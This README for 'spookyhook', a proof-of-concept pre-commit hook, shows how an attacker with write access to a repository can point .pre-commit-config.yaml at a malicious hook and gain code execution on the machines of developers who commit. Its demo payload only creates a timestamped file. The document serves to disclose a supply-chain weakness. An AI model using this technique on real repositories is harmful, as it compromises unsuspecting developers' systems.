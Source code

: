 # spookyhook
Spookyhook is a proof of concept git hook for use with [pre-commit](www.pre-commit.com) that demonstrates that if write access to a git repo is compromised and that repo uses pre-commit, an attacker can perform arbitrary code execution on end users' systems when they attempt to perform a commit on that repo.


## How to Use
1. Prerequisite: [The victim system needs to have pre-commit installed on it.](https://pre-commit.com/#installation)
2. Create a repo
3. Add a file called .pre-commit-config.yaml with the following content and commit:
```
repos:
-   repo: https://github.com/aderon2/spookyhook
    rev: 0.0.9
    hooks:
    -   id: spookyhook
```
4. Now on the victim system, clone the repo that you created and use pre-commit to install the git hooks specified by the repo (spookyhook):
```
pre-commit install
```
5. As an example of arbitrary code being executed, any future commits on that repo by that end user will cause a timestamped file to be created in that directory.


## Attack Scenario
Write access to a repo that uses pre-commit is compromised.  Attacker modifies .pre-commit-config.yaml to point towards a malicious hook (such as spookyhook).  As part of their normal process, the victim uses pre-commit to install the git hooks specified by the repository in .pre-commit-config.yaml.  End user makes a commit.  Arbitrary code execution occurs.
